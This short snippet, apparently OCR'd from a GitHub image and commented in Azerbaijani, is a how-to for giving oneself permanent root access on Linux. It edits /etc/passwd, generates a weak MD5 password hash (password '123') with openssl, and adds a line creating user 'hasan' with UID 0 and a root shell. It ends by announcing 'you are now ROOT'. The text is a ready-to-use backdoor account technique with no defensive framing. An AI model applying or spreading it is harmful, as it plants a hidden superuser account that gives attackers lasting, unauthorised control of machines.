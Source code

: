     nano  /etc/passwd  
 ## hissesine elave etsen sen hemise root kimi usere daxil olacaqsan 
      openssl passwd -1  -salt hasan
   ## parol 123
       nano /etc/passwd
       
      hasan:$1$hasan$BUMdh4tI4WdCuFkBJI64T/:0:0:root:/root:/bin/bash
   
 


  
   ## sen artiq ROOT'SAN

